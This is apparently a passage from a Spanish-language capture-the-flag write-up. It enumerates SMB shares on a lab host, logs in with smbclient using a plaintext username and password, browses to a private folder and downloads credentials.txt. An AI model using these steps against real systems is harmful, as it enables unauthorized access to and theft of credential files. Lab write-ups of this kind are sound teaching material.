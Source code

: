 ```
        Disk                                                         Permissions     Comment
    ----                                                         -----------     -------
    myshare                                              READ ONLY       Carpeta compartida sin restricciones
    backup24                                             READ ONLY       Privado
    ./backup24Documents/Personal
    dr--r--r--                0 Sun Oct  6 03:17:16 2024 .
    dr--r--r--                0 Sun Oct  6 03:15:02 2024 ..
    fr--r--r--              902 Sun Oct  6 03:23:28 2024 credentials.txt
    fr--r--r--               15 Sun Oct  6 03:19:56 2024 notes.txt
    home                                                 NO ACCESS       Produccion
    IPC$                                                 NO ACCESS       IPC Service (EseEmeB Samba Server)
```

Y pudimos encontrar un archivo `credentials.txt` el cual podemos usar a nuestro favor.

### Acceso a archivos sensibles
Ahora usaremos `smbclient` para conectarnos, navegar y poder descargar ese archivo de importancia:

```bash
smbclient //172.17.0.2/backup24/ -U satriani7%50cent
```

Lo cual haremos:

```
smb: \> ls
.                                   D        0  Sun Oct  6 03:19:03 2024
..                                  D        0  Sun Oct  6 03:19:03 2024
CQFO6Q~M                            D        0  Sun Oct  6 03:19:03 2024
Documents                           D        0  Sun Oct  6 03:15:03 2024
Desktop                             D        0  Sun Oct  6 03:18:46 2024
Downloads                           D        0  Sun Oct  6 03:15:03 2024
Videos                              D        0  Sun Oct  6 03:15:03 2024
Temp                                D        0  Sun Oct  6 03:18:51 2024
Pictures                            D        0  Sun Oct  6 03:15:03 2024

                58413036 blocks of size 1024. 37125220 blocks available
smb: \> cd Documents\
smb: \Documents\> cd Personal\
smb: \Documents\Personal\> ls
.                                   D        0  Sun Oct  6 03:17:17 2024
..                                  D        0  Sun Oct  6 03:15:03 2024
credentials.txt                     N      902  Sun Oct  6 03:23:29 2024
notes.txt                           N       15  Sun Oct  6 03:19:57 2024

                58413036 blocks of size 1024. 37125220 blocks available
smb: \Documents\Personal\> 
```

Ahora usaremos `get` para poder descargar ese archivo en nuestra máquina:

```bash
get credentials.txt
```
